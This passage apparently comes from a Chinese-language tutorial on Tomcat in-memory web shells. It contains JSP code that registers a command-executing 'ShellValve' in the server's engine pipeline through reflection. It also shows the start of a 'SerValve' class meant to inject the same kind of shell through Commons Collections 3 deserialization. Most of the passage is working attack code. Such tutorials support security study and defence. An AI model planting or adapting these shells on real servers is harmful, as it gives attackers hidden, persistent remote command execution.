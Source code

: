 ```jsp
                Process process = Runtime.getRuntime().exec(cmd);
                // 读取命令输出
                BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
                StringBuilder output = new StringBuilder();
                String line;
                while ((line = reader.readLine()) != null) {
                    output.append(line).append("\n");
                }

                // 等待命令执行完成
                int exitCode = process.waitFor();
                output.append("\n命令执行完成，退出码为 " + exitCode);
                // 输出命令输出结果到客户端
                response.getWriter().print(output.toString());
            } catch (IOException e) {
                e.printStackTrace();
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
            getNext().invoke(request,response);
        }
    }
%>

<%
    try {
        Field fieldRequest = request.getClass().getDeclaredField("request");
        fieldRequest.setAccessible(true);
        Request req = (Request) fieldRequest.get(request);
        StandardContext standardContext= (StandardContext)req.getContext();
        StandardWrapper standardWrapper = (StandardWrapper) req.getWrapper();
        StandardHost standardHost = (StandardHost) standardContext.getParent();
        StandardEngine standardEngine = (StandardEngine) standardHost.getParent();
        // 向那个组件中添加，就使用哪个组件获取对应的StandardPipeline
        Valve shellValve = new ShellValve();
        standardEngine.getPipeline().addValve(shellValve);
    } catch (Exception e) {
        e.printStackTrace();
    }
%>
</body>
</html>
```

反序列化实现Valve内存马时，就不能继承ValveBase这个类了，而是需要实现Valve接口，因为java的单继承模式。
服务端就是接收base64编码后的序列化字符串，解码，然后反序列化，CC的版本为3.1，然后还是使用CC3

```java
public class SerValve extends com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet implements Valve {
    static {
        WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        // StandardContext
        Context context = webappClassLoaderBase.getResources().getContext();
        context.getPipeline().addValve(new SerValve());
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

```
